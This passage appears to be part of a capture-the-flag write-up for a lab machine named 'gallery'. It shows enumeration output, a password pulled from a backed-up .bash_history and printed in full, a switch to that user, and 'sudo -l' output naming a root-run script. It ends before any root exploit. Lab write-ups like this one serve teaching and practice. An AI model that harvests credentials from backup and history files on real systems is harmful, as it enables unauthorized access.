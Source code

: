 ```
╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)

-rwxr-xr-x 1 root root 3772 May 24  2021 /var/backups/mike_home_backup/.bashrc
-rwxr-xr-x 1 root root 135 May 24  2021 /var/backups/mike_home_backup/.bash_history
-rwxr-xr-x 1 root root 220 May 24  2021 /var/backups/mike_home_backup/.bash_logout
-rwxr-xr-x 1 root root 20549 May 24  2021 /var/backups/mike_home_backup/images/23-04.jpg
-rwxr-xr-x 1 root root 159262 May 24  2021 /var/backups/mike_home_backup/images/my-cat.jpg
-rwxr-xr-x 1 root root 436526 May 24  2021 /var/backups/mike_home_backup/images/26-04.jpg
-rwxr-xr-x 1 root root 103 May 24  2021 /var/backups/mike_home_backup/documents/accounts.txt
-rwxr-xr-x 1 root root 807 May 24  2021 /var/backups/mike_home_backup/.profile


```

- ### found Mike's password in /var/backups$ cat mike_home_backup/.bash_history
	- #### Mike's password: b3stpassw0rdbr0xx

---
## Privilege Escalation
----
- # su to mike
```bash
www-data@gallery:/home/mike$ su mike
Password: 
mike@gallery:~$ ls -la
total 44
drwxr-xr-x 6 mike mike 4096 Aug 25  2021 .
drwxr-xr-x 4 root root 4096 May 20  2021 ..
-rw------- 1 mike mike  135 May 24  2021 .bash_history
-rw-r--r-- 1 mike mike  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mike mike 3772 May 20  2021 .bashrc
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 3 mike mike 4096 May 20  2021 .gnupg
drwx------ 2 mike mike 4096 May 24  2021 images
drwxrwxr-x 3 mike mike 4096 Aug 25  2021 .local
-rw-r--r-- 1 mike mike  807 Apr  4  2018 .profile
-rwx------ 1 mike mike   32 May 14  2021 user.txt

```

- ## sudo -l 
```bash
mike@gallery:/tmp$ sudo -l 
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
